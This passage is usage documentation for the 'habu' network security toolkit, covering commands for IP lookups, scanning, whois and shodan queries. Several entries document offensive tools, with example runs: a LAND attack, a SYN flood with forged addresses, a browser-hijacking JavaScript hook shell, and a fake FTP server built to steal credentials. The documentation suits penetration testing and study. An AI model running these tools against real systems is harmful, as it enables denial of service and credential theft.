.. code-block::

    Usage: habu.ip [OPTIONS]
    
      Get the public IP address of the connection from https://api.ipify.org.
    
      Example:
    
      $ habu.ip
      80.219.53.185
    
    Options:
      -4, --ipv4  Print your public IPv4 address (default)
      -6, --ipv6  Print your public IPv6 address
      -j, --json  Print the output in JSON format
      --help      Show this message and exit.
    

habu.ip2asn
-----------

.. code-block::

    Usage: habu.ip2asn [OPTIONS] IP
    
      Use Team Cymru ip2asn service to get information about a public IPv4/IPv6.
    
      Reference: https://www.team-cymru.com/IP-ASN-mapping.html
    
      $ habu.ip2asn 8.8.8.8
      {
          "asn": "15169",
          "net": "8.8.8.0/24",
          "cc": "US",
          "rir": "ARIN",
          "asname": "GOOGLE - Google LLC, US",
          "country": "United States"
      }
    
    Options:
      --help  Show this message and exit.
    

habu.ip.geolocation
-------------------

.. code-block::

    Usage: habu.ip.geolocation [OPTIONS] IP_ADDRESS
    
      Get the geolocation of an IP adddress from https://ipapi.co/.
    
      Example:
    
      $ habu.ip.geolocation 8.8.8.8
      {
          "ip": "8.8.8.8",
          "city": "Mountain View",
          ...
          "asn": "AS15169",
          "org": "Google LLC"
      }
    
    Options:
      -v      Verbose output.
      --help  Show this message and exit.
    

habu.ip.internal
----------------

.. code-block::

    Usage: habu.ip.internal [OPTIONS]
    
      Get the local IP address(es) of the local interfaces.
    
      Example:
    
      $ habu.ip.internal
      {
        "lo": {
          "ipv4": [
            {
              "addr": "127.0.0.1",
              "netmask": "255.0.0.0",
              "peer": "127.0.0.1"
            }
          ],
          "link_layer": [
            {
              "addr": "00:00:00:00:00:00",
              "peer": "00:00:00:00:00:00"
            }
          ],
          "ipv6": [
            {
              "addr": "::1",
              "netmask": "ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff/128"
            }
          ]
        },
      ...
    
    Options:
      -v      Verbose output.
      --help  Show this message and exit.
    

habu.isn
--------

.. code-block::

    Usage: habu.isn [OPTIONS] IP
    
      Create TCP connections and print the TCP initial sequence numbers for each
      one.
    
      $ sudo habu.isn -c 5 www.portantier.com
      1962287220
      1800895007
      589617930
      3393793979
      469428558
    
      Note: You can get a graphical representation (needs the matplotlib
      package) using the '-g' option to better understand the randomness.
    
    Options:
      -p INTEGER  Port to use (default: 80)
      -c INTEGER  How many packets to send/receive (default: 5)
      -i TEXT     Interface to use
      -g          Graph (requires matplotlib)
      -v          Verbose output
      --help      Show this message and exit.
    

habu.jshell
-----------

.. code-block::

    Usage: habu.jshell [OPTIONS]
    
      Control a web browser through Websockets.
    
      Bind a port (default: 3333) and listen for HTTP connections.
    
      On connection, send a JavaScript code that opens a WebSocket that can be
      used to send commands to the connected browser.
    
      You can write the commands directly in the shell, or use plugins, that are
      simply external JavaScript files.
    
      Using habu.jshell you can completely control a web browser.
    
      Reference: https://developer.mozilla.org/en-US/docs/Web/API/WebSockets_API
    
      Example:
    
      $ habu.jshell
      >> Listening on 192.168.0.10:3333. Waiting for a victim connection.
      >> HTTP Request received from 192.168.0.15. Sending hookjs
      >> Connection from 192.168.0.15
      $ _sessions
      0 * 192.168.0.15:33432 Mozilla/5.0 (X11; Linux x86_64; rv:57.0) Gecko/20100101 Firefox/57.0
      $ _info
      {
          "user-agent": "Mozilla/5.0 (X11; Linux x86_64; rv:57.0) Gecko/20100101 Firefox/57.0",
          "location": "http://192.168.0.10:3333/",
          "java-enabled": false,
          "platform": "Linux x86_64",
          "app-code-name": "Mozilla",
          "app-name": "Netscape",
          "app-version": "5.0 (X11)",
          "cookie-enabled": true,
          "language": "es-AR",
          "online": true
      }
      $ document.location
      http://192.168.0.10:3333/
    
    Options:
      -v          Verbose
      -i TEXT     IP to listen on
      -p INTEGER  Port to listen on
      --help      Show this message and exit.
    

habu.karma
----------

.. code-block::

    Usage: habu.karma [OPTIONS] HOST
    
      Use the Karma service https://karma.securetia.com to check an IP against
      various Threat Intelligence / Reputation lists.
    
      $ habu.karma www.google.com
      www.google.com -> 64.233.190.99
      [
          "hphosts_fsa",
          "hphosts_psh",
          "hphosts_emd"
      ]
    
      Note: You can use the hostname or the IP of the host to query.
    
    Options:
      --help  Show this message and exit.
    

habu.karma.bulk
---------------

.. code-block::

    Usage: habu.karma.bulk [OPTIONS] [INFILE]
    
      Show which IP addresses are inside blacklists using the Karma online
      service.
    
      Example:
    
      $ cat /var/log/auth.log | habu.extract.ipv4 | habu.karma.bulk
      172.217.162.4   spamhaus_drop,alienvault_spamming
      23.52.213.96    CLEAN
      190.210.43.70   alienvault_malicious
    
    Options:
      --json  JSON output
      --bad   Show only entries in blacklists
      -v      Verbose output
      --help  Show this message and exit.
    

habu.land
---------

.. code-block::

    Usage: habu.land [OPTIONS] IP
    
      This command implements the LAND attack, that sends packets forging the
      source IP address to be the same that the destination IP. Also uses the
      same source and destination port.
    
      The attack is very old, and can be used to make a Denial of Service on old
      systems, like Windows NT 4.0. More information here:
      https://en.wikipedia.org/wiki/LAND
    
      # sudo habu.land 172.16.0.10
      ............
    
      Note: Each dot (.) is a sent packet. You can specify how many packets send
      with the '-c' option. The default is never stop. Also, you can specify the
      destination port, with the '-p' option.
    
    Options:
      -c INTEGER  How many packets send (default: infinit)
      -p INTEGER  Port to use (default: 135)
      -i TEXT     Interface to use
      -v          Verbose
      --help      Show this message and exit.
    

habu.nc
-------

.. code-block::

    Usage: habu.nc [OPTIONS] HOST PORT
    
      Some kind of netcat/ncat replacement.
    
      The execution emulates the feeling of this popular tools.
    
      Example:
    
      $ habu.nc --crlf www.portantier.com 80
      Connected to 45.77.113.133 80
      HEAD / HTTP/1.0
    
      HTTP/1.0 301 Moved Permanently
      Date: Thu, 26 Jul 2018 21:10:51 GMT
      Server: OpenBSD httpd
      Connection: close
      Content-Type: text/html
      Content-Length: 443
      Location: https://www.portantier.com/
    
    Options:
      --family [4|6|46]            IP Address Family
      --ssl                        Enable SSL
      --crlf                       Use CRLF for EOL sequence
      --protocol [tcp|udp]         Layer 4 protocol to use
      --source-ip TEXT             Source IP to use
      --source-port INTEGER RANGE  Source port to use
      --help                       Show this message and exit.
    

habu.nmap.excluded
------------------

.. code-block::

    Usage: habu.nmap.excluded [OPTIONS]
    
      Prints a random port that is not present on nmap-services file so is not
      scanned automatically by nmap.
    
      Useful for services like SSH or RDP, that are continuously scanned on
      their default ports.
    
      Example:
    
      # habu.nmap.excluded
      58567
    
    Options:
      -l INTEGER RANGE  Lowest port to consider
      -h INTEGER RANGE  Highest port to consider
      --help            Show this message and exit.
    

habu.nmap.open
--------------

.. code-block::

    Usage: habu.nmap.open [OPTIONS] SCANFILE
    
      Read an nmap report and print the open ports.
    
      Print the ports that has been resulted open reading the generated nmap
      output.
    
      You can use it to rapidly reutilize the port list for the input of other
      tools.
    
      Supports and detects the 3 output formats (nmap, gnmap and xml)
    
      Example:
    
      # habu.nmap.open portantier.nmap
      22,80,443
    
    Options:
      -p [tcp|udp|sctp]  The protocol (default=tcp)
      --help             Show this message and exit.
    

habu.nmap.ports
---------------

.. code-block::

    Usage: habu.nmap.ports [OPTIONS] SCANFILE
    
      Read an nmap report and print the tested ports.
    
      Print the ports that has been tested reading the generated nmap output.
    
      You can use it to rapidly reutilize the port list for the input of other
      tools.
    
      Supports and detects the 3 output formats (nmap, gnmap and xml)
    
      Example:
    
      # habu.nmap.ports portantier.nmap
      21,22,23,80,443
    
    Options:
      -p [tcp|udp|sctp]  The protocol (default=tcp)
      --help             Show this message and exit.
    

habu.ping
---------

.. code-block::

    Usage: habu.ping [OPTIONS] IP
    
      The classic ping tool that send ICMP echo requests.
    
      # habu.ping 8.8.8.8
      IP / ICMP 8.8.8.8 > 192.168.0.5 echo-reply 0 / Padding
      IP / ICMP 8.8.8.8 > 192.168.0.5 echo-reply 0 / Padding
      IP / ICMP 8.8.8.8 > 192.168.0.5 echo-reply 0 / Padding
      IP / ICMP 8.8.8.8 > 192.168.0.5 echo-reply 0 / Padding
    
    Options:
      -i TEXT     Wich interface to use (default: auto)
      -c INTEGER  How many packets send (default: infinit)
      -t INTEGER  Timeout in seconds (default: 2)
      -w INTEGER  How many seconds between packets (default: 1)
      -v          Verbose
      --help      Show this message and exit.
    

habu.protoscan
--------------

.. code-block::

    Usage: habu.protoscan [OPTIONS] IP
    
      Send IP packets with different protocol field content to guess what layer
      4 protocols are available.
    
      The output shows which protocols doesn't generate a 'protocol-unreachable'
      ICMP response.
    
      Example:
    
      $ sudo python cmd_ipscan.py 45.77.113.133
      1   icmp
      2   igmp
      4   ipencap
      6   tcp
      17  udp
      41  ipv6
      47  gre
      50  esp
      51  ah
      58  ipv6_icmp
      97  etherip
      112 vrrp
      115 l2tp
      132 sctp
      137 mpls_in_ip
    
    Options:
      -i TEXT     Interface to use
      -t INTEGER  Timeout for each probe (default: 2 seconds)
      --all       Probe all protocols (default: Defined in /etc/protocols)
      -v          Verbose output
      --help      Show this message and exit.
    

habu.server.ftp
---------------

.. code-block::

    Usage: habu.server.ftp [OPTIONS]
    
      Basic fake FTP server, whith the only purpose to steal user credentials.
    
      Supports SSL/TLS.
    
      Example:
    
      # sudo habu.server.ftp --ssl --ssl-cert /tmp/cert.pem --ssl-key /tmp/key.pem
      Listening on port 21
      Accepted connection from ('192.168.0.27', 56832)
      Credentials collected from 192.168.0.27! fabian 123456
    
    Options:
      -a TEXT          Address to bind (default: all)
      -p INTEGER       Which port to use (default: 21)
      --ssl            Enable SSL/TLS (default: False)
      --ssl-cert TEXT  SSL/TLS Cert file
      --ssl-key TEXT   SSL/TLS Key file
      -v               Verbose
      --help           Show this message and exit.
    

habu.shodan
-----------

.. code-block::

    Usage: habu.shodan [OPTIONS] IP
    
      Simple shodan API client.
    
      Prints the JSON result of a shodan query.
    
      Example:
    
      $ habu.shodan 216.58.222.36
      asn                      AS15169
      isp                      Google
      hostnames                eze04s06-in-f4.1e100.net, gru09s17-in-f36.1e100.net
      country_code             US
      region_code              CA
      city                     Mountain View
      org                      Google
      open_ports               tcp/443, tcp/80
    
    Options:
      --cache / --no-cache
      -v                            Verbose output
      --format [txt|csv|json|nmap]  Output format
      --help                        Show this message and exit.
    

habu.shodan.query
-----------------

.. code-block::

    Usage: habu.shodan.query [OPTIONS] QUERY
    
      Simple shodan API client.
    
      Prints the JSON result of a shodan query.
    
      Example:
    
      $ habu.shodan 8.8.8.8
      {
          "hostnames": [
              "google-public-dns-a.google.com"
          ],
          "country_code": "US",
          "org": "Google",
          "data": [
              {
                  "isp": "Google",
                  "transport": "udp",
                  "data": "Recursion: enabled",
                  "asn": "AS15169",
                  "port": 53,
                  "hostnames": [
                      "google-public-dns-a.google.com"
                  ]
              }
          ],
          "ports": [
              53
          ]
      }
    
    Options:
      -c           Disable cache
      -v           Verbose output
      -o FILENAME  Output file (default: stdout)
      --help       Show this message and exit.
    

habu.synflood
-------------

.. code-block::

    Usage: habu.synflood [OPTIONS] IP
    
      Launch a lot of TCP connections and keeps them opened.
    
      Some very old systems can suffer a Denial of Service with this.
    
      Reference: https://en.wikipedia.org/wiki/SYN_flood
    
      Example:
    
      # sudo habu.synflood 172.16.0.10
      .................
    
      Each dot is a packet sent.
    
      You can use the options '-2' and '-3' to forge the layer 2/3 addresses.
    
      If you use them, each connection will be sent from a random layer2 (MAC)
      and/or layer3 (IP) address.
    
      You can choose the number of connections to create with the option '-c'.
      The default is never stop creating connections.
    
      Note: If you send the packets from your real IP address and you want to
      keep the connections half-open, you need to setup for firewall to don't
      send the RST packets.
    
    Options:
      -i TEXT     Wich interface to use (default: auto)
      -c INTEGER  How many packets send (default: infinit)
      -p INTEGER  Port to use (default: 135)
      -2          Forge layer2/MAC address (default: No)
      -3          Forge layer3/IP address (default: No)
      -v          Verbose
      --help      Show this message and exit.
    

habu.tcpflags
-------------

.. code-block::

    Usage: habu.tcpflags [OPTIONS] IP
    
      Send TCP packets with different flags and tell what responses receives.
    
      It can be used to analyze how the different TCP/IP stack implementations
      and configurations responds to packet with various flag combinations.
    
      Example:
    
      # habu.tcpflags www.portantier.com
      S  -> SA
      FS -> SA
      FA -> R
      SA -> R
    
      By default, the command sends all possible flag combinations. You can
      specify which flags must ever be present (reducing the quantity of
      possible combinations), with the option '-f'.
    
      Also, you can specify which flags you want to be present on the response
      packets to show, with the option '-r'.
    
      With the next command, you see all the possible combinations that have the
      FIN (F) flag set and generates a response that contains the RST (R) flag.
    
      Example:
    
      # habu.tcpflags -f F -r R www.portantier.com
      FPA  -> R
      FSPA -> R
      FAU  -> R
    
    Options:
      -p INTEGER  Port to use (default: 80)
      -f TEXT     Flags that must be sent ever (default: fuzz with all flags)
      -r TEXT     Filter by response flags (default: show all responses)
      -v          Verbose
      --help      Show this message and exit.
    

habu.tcpscan
------------

.. code-block::

    Usage: habu.tcpscan [OPTIONS] IP
    
      TCP Port Scanner.
    
      Print the ports that generated a response with the SYN flag or (if show
      use -a) all the ports that generated a response.
    
      It's really basic compared with nmap, but who is comparing?
    
      Example:
    
      # habu.tcpscan -p 22,23,80,443 -s 1 45.77.113.133
      22 S -> SA
      80 S -> SA
      443 S -> SA
    
    Options:
      -p TEXT     Ports to use (default: 80) example: 20-23,80,135
      -i TEXT     Interface to use
      -f TEXT     Flags to use (default: S)
      -s TEXT     Time between probes (default: send all together)
      -t INTEGER  Timeout for each probe (default: 2 seconds)
      -a          Show all responses (default: Only containing SYN flag)
      -v          Verbose output
      --help      Show this message and exit.
    

habu.traceroute
---------------

.. code-block::

    Usage: habu.traceroute [OPTIONS] IP
    
      TCP traceroute.
    
      Identify the path to a destination getting the ttl-zero-during-transit
      messages.
    
      Note: On the internet, you can have various valid paths to a device.
    
      Example:
    
      # habu.traceroute 45.77.113.133
      IP / ICMP 192.168.0.1 > 192.168.0.5 time-exceeded ttl-zero-during-transit / IPerror / TCPerror
      IP / ICMP 10.242.4.197 > 192.168.0.5 time-exceeded ttl-zero-during-transit / IPerror / TCPerror / Padding
      IP / ICMP 200.32.127.98 > 192.168.0.5 time-exceeded ttl-zero-during-transit / IPerror / TCPerror / Padding
      .
      IP / ICMP 4.16.180.190 > 192.168.0.5 time-exceeded ttl-zero-during-transit / IPerror / TCPerror
      .
      IP / TCP 45.77.113.133:http > 192.168.0.5:ftp_data SA / Padding
    
      Note: It's better if you use a port that is open on the remote system.
    
    Options:
      -p INTEGER  Port to use (default: 80)
      -i TEXT     Interface to use
      --help      Show this message and exit.
    

habu.usercheck
--------------

.. code-block::

    Usage: habu.usercheck [OPTIONS] USERNAME
    
      Check if the given username exists on various social networks and other
      popular sites.
    
      $ habu.usercheck portantier
      {
          "aboutme": "https://about.me/portantier",
          "disqus": "https://disqus.com/by/portantier/",
          "github": "https://github.com/portantier/",
          "ifttt": "https://ifttt.com/p/portantier",
          "lastfm": "https://www.last.fm/user/portantier",
          "medium": "https://medium.com/@portantier",
          "pastebin": "https://pastebin.com/u/portantier",
          "pinterest": "https://in.pinterest.com/portantier/",
          "twitter": "https://twitter.com/portantier",
          "vimeo": "https://vimeo.com/portantier"
      }
    
    Options:
      -c      Disable cache
      -v      Verbose output
      -w      Open each valid url in a webbrowser
      --help  Show this message and exit.
    

habu.version
------------

.. code-block::

    Usage: habu.version [OPTIONS]
    
    Options:
      --help  Show this message and exit.
    

habu.vhosts
-----------

.. code-block::

    Usage: habu.vhosts [OPTIONS] HOST
    
      Use Bing to query the websites hosted on the same IP address.
    
      $ habu.vhosts www.telefonica.com
      www.telefonica.com -> 212.170.36.79
      [
          'www.telefonica.es',
          'universitas.telefonica.com',
          'www.telefonica.com',
      ]
    
    Options:
      -c          Disable cache
      -p INTEGER  Pages count (Default: 10)
      -f INTEGER  First result to get (Default: 1)
      --help      Show this message and exit.
    

habu.virustotal
---------------

.. code-block::

    Usage: habu.virustotal [OPTIONS] INPUT
    
      Send a file to VirusTotal https://www.virustotal.com/ and print the report
      in JSON format.
    
      Note: Before send a file, will check if the file has been analyzed before
      (sending the sha256 of the file), if a report exists, no submission will
      be made, and you will see the last report.
    
      $ habu.virustotal meterpreter.exe
      Verifying if hash already submitted: f4826b219aed3ffdaa23db26cfae611979bf215984fc71a1c12f6397900cb70d
      Sending file for analysis
      Waiting/retrieving the report...
      {
          "md5": "0ddb015b5328eb4d0cc2b87c39c49686",
          "permalink": "https://www.virustotal.com/file/c9a2252b491641e15753a4d0c4bb30b1f9bd26ecff2c74f20a3c7890f3a1ea23/analysis/1526850717/",
          "positives": 49,
          "resource": "c9a2252b491641e15753a4d0c4bb30b1f9bd26ecff2c74f20a3c7890f3a1ea23",
          "response_code": 1,
          "scan_date": "2018-05-20 21:11:57",
          "scan_id": "c9a2252b491641e15753a4d0c4bb30b1f9bd26ecff2c74f20a3c7890f3a1ea23-1526850717",
          "scans": {
              "ALYac": {
                  "detected": true,
                  "result": "Trojan.CryptZ.Gen",
                  "update": "20180520",
                  "version": "1.1.1.5"
              },
              ... The other scanners ...
          },
          "sha1": "5fa33cab1729480dd023b08f7b91a945c16d0a9e",
          "sha256": "c9a2252b491641e15753a4d0c4bb30b1f9bd26ecff2c74f20a3c7890f3a1ea23",
          "total": 67,
          "verbose_msg": "Scan finished, information embedded"
      }
    
    Options:
      -v      Verbose output
      --help  Show this message and exit.
    

habu.web.report
---------------

.. code-block::

    Usage: habu.web.report [OPTIONS] [INPUT_FILE]
    
      Makes a report that includes HTTP headers of websites.
    
      Optionally, uses Firefox or Chromium to take a screenshot of the websites.
    
      The expected format is one url per line.
    
      Creates a directory called 'report' with the content inside.
    
      $ echo https://www.portantier.com | habu.web.report
    
    Options:
      -v                             Verbose output
      -s                             Take a screenshot for each website
      -b [firefox|chromium-browser]  Browser to use for screenshot.
      --help                         Show this message and exit.
    

habu.web.screenshot
-------------------

.. code-block::

    Usage: habu.web.screenshot [OPTIONS] URL
    
      Uses Firefox or Chromium to take a screenshot of the website.
    
      $ habu.web.screenshot https://www.portantier.com
    
    Options:
      -b [firefox|chromium-browser]  Browser to use for screenshot.
      -o TEXT                        Output file. (default: screenshot.png)
      --help                         Show this message and exit.
    

habu.whois.domain
-----------------

.. code-block::

    Usage: habu.whois.domain [OPTIONS] DOMAIN
    
      Simple whois client to check domain names.
    
      Example:
    
      $ habu.whois.domain google.com
      registrar                MarkMonitor, Inc.
      whois_server             whois.markmonitor.com
      creation_date            1997-09-15 04:00:00
      expiration_date          2028-09-14 04:00:00
      name_servers             ns1.google.com, ns2.google.com, ns3.google.com, ns4.google.com
      emails                   abusecomplaints@markmonitor.com, whoisrequest@markmonitor.com
      dnssec                   unsigned
      org                      Google LLC
      country                  US
      state                    CA
    
    Options:
      --json  Print the output in JSON format
      --csv   Print the output in CSV format
      --help  Show this message and exit.
    

habu.whois.ip
-------------

.. code-block::

    Usage: habu.whois.ip [OPTIONS] IP
    
      Simple whois client to check IP addresses (IPv4 and IPv6).
    
      Example:
    
      $ habu.whois.ip 8.8.4.4
      asn                      15169
      asn_registry             arin
      asn_cidr                 8.8.4.0/24
      asn_country_code         US
      asn_description          GOOGLE - Google LLC, US
      asn_date                 1992-12-01
    
    Options:
      --json  Print the output in JSON format
      --csv   Print the output in CSV format
      --help  Show this message and exit.
    

